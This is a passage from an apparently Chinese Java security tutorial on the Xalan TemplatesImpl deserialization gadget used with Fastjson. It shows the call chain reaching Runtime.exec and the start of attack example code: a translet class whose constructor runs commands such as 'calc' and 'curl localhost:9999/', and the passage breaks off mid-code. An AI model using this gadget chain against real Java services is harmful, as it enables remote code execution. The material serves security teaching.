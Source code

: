 **getOutputProperties命令执行调用链：**

```java
java.lang.Runtime.exec(Runtime.java:347)
com.anbai.sec.classloader.TestAbstractTranslet.<init>(TestAbstractTranslet.java:24)
sun.reflect.NativeConstructorAccessorImpl.newInstance0(Native Method)
sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:57)
sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
java.lang.reflect.Constructor.newInstance(Constructor.java:526)
java.lang.Class.newInstance(Class.java:383)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:408)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:439)
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:460)
com.anbai.sec.classloader.XalanTemplatesImpl.invokeField(XalanTemplatesImpl.java:150)
com.anbai.sec.classloader.XalanTemplatesImpl.main(XalanTemplatesImpl.java:176)
```

**Xalan攻击示例代码：**

```java
package com.anbai.sec.classloader;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.LinkedHashMap;
import java.util.Map;
import java.util.Properties;

import static org.apache.commons.codec.binary.Base64.encodeBase64String;

public class XalanTemplatesImpl {

	/**
	 * com.anbai.sec.classloader.TestAbstractTranslet类字节码
	 *
	 * <pre>
	 * package com.anbai.sec.classloader;
	 *
	 * import com.sun.org.apache.xalan.internal.xsltc.DOM;
	 * import com.sun.org.apache.xalan.internal.xsltc.TransletException;
	 * import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
	 * import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
	 * import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
	 *
	 * import java.io.IOException;
	 *
	 * public class TestAbstractTranslet extends AbstractTranslet {
	 *
	 * 	public TestAbstractTranslet() {
	 * 		String command = "open -a Calculator.app";
	 * 		String osName  = System.getProperty("os.name");
	 *
	 * 		if (osName.startsWith("Windows")) {
	 * 			command = "calc 12345678901234567";
	 *      } else if (osName.startsWith("Linux")) {
	 * 			command = "curl localhost:9999/";
```